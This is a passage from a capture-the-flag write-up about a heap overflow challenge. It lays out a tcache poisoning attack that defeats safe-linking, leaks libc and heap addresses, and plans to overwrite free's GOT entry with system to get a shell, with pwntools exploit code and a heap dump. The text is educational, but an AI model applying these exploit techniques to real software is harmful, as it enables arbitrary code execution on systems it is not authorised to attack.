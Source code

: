 ## Exploitation

There is no actual issue, we can allocate whatever chunk bigger than `0x407`, the only fancy thing we have to do would be to defeat safe-linking to get an arbitrary write with a tcache poisoning attack on the `0x410` tcache bin. Here is the attack I led against the challenge but that's not the most optimized.

The plan is to:
- Allocate two `0x408`-sized chunks : pivot and victim, in order to easily get later libc leak.
- Allocate 9 more chunks and then fill the `0x410` tcachebin with them (with only 7 of them).
- Delete `victim` and overflow pivot up to the next free pointer of `victim` to get a libc leak.
- Allocate a `0x408`-sized chunk to get the `8`-th chunk (within `chunk_array`) which is on the top of the bin.
- Leak the heap same way as for libc, but we have to defeat safe-linking.
- Delete the `9`-th chunk to put it in the tcachebin at the first position.
- Then we can simply `edit` chunk `8` and overflow over chunk `9` to poison its next `fp` to hiijack it toward the GOT entry of `free`.
- Pop chunk `9` from the freelist and then request another the target memory area : the GOT entry of `free`.
- Write `system` into the GOT entry of `free`.
- Free whatever chunk for which `//bin/sh` is written at the right begin.
- PROFIT.

To understand the attack process I'll show the heap state at certain part of the attack.

## Libc / heap leak

First we have to fill the tcache. We allocate a chunk right after `chunk0` we do not put into the tcache to be able to put it in the unsortedbin to make appear unsortedbin's address:
```py
add(0, 1032, b"//bin/sh\x00", b"", b"", 1337, b"") # pivot
add(1, 1032, b"", b"", b"", 1337, b"") # victim

for i in range(2, 7+2 + 2):
    add(i, 1032, b"", b"", b"", 1337, b"")

for i in range(2, 7+2):
    delete(i)

delete(1)
edit(0, b"", b"", b"", 1337, b"Y"*(1032 - 64 + 7))

show(0)
io.recvuntil(b"Y"*(1032 - 64 + 7) + b"\n")
libc.address = pwn.u64(io.recvuntil(b"1 Add\n")[:-6].ljust(8, b"\x00")) - 0x1c7cc0
pwn.log.info(f"libc: {hex(libc.address)}")

# Heap state:
"""
0x1de1290	0x0000000000000000	0x0000000000000411	................ [chunk0]
0x1de12a0	0x68732f6e69622f0a	0x0000000000000a0a	./bin/sh........
0x1de12b0	0x000000000000000a	0x0000000000000539	........9.......
0x1de12c0	0x0000000000000000	0x0000000000000000	................
0x1de12d0	0x0000000000000000	0x0000000000000000	................
0x1de12e0	0x5959595959595959	0x5959595959595959	YYYYYYYYYYYYYYYY
0x1de12f0	0x5959595959595959	0x5959595959595959	YYYYYYYYYYYYYYYY
0x1de1300	0x5959595959595959	0x5959595959595959	YYYYYYYYYYYYYYYY
0x1de1310	0x5959595959595959	0x5959595959595959	YYYYYYYYYYYYYYYY
0x1de1320	0x5959595959595959	0x5959595959595959	YYYYYYYYYYYYYYYY
0x1de1330	0x5959595959595959	0x5959595959595959	YYYYYYYYYYYYYYYY
0x1de1340	0x5959595959595959	0x5959595959595959	YYYYYYYYYYYYYYYY
0x1de1350	0x5959595959595959	0x5959595959595959	YYYYYYYYYYYYYYYY
0x1de1360	0x5959595959595959	0x5959595959595959	YYYYYYYYYYYYYYYY
0x1de1370	0x5959595959595959	0x5959595959595959	YYYYYYYYYYYYYYYY
```